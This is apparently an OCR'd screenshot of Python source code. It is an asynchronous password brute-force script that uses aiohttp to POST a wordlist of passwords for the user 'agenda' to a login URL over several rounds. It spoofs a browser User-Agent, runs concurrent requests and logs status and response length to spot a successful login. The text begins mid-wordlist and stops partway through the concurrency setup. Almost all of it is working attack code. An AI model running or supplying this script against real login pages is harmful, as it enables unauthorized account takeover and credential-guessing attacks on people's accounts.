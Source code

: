     ...put the passwords here...

    moon
    moscow""".split('\n')


    async def test_password(session: aiohttp.ClientSession, password: str, url: str, username: str = 'agenda') -> None:
        """測試單一密碼登入"""
        data = {
            'username': username,
            'password': password,
        }
        
        try:
            async with session.post(url, data=data) as response:
                text = await response.text()
                status = response.status
                length = len(text)
                
                print(f"Password: {password}\tStatus: {status}\tLength: {length}")
                            
        except Exception as e:
            print(f"Password: {password}\tError: {e}")

    async def run_password_tests(wordlist: List[str], url: str, rounds: int = 5, username: str = 'agenda') -> None:
        """執行非同步密碼測試"""
        # 設定連接池和超時
        timeout = aiohttp.ClientTimeout(total=15)
        connector = aiohttp.TCPConnector(
            limit=30,           # 總連接池大小
            limit_per_host=15,  # 每個主機的連接限制
            ttl_dns_cache=300,  # DNS快取時間
            use_dns_cache=True,
        )
        
        async with aiohttp.ClientSession(
            timeout=timeout, 
            connector=connector,
            headers={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36'}
        ) as session:
            
            for round_num in range(rounds):
                print(f"\n=== Round {round_num + 1} ===")
                
                # 建立該輪的所有任務
                tasks = []
                for password in wordlist:
                    task = test_password(session, password, url, username)
                    tasks.append(task)
                
                # 使用信號量限制並發數
                semaphore = asyncio.Semaphore(10)  # 同時最多10個請求
                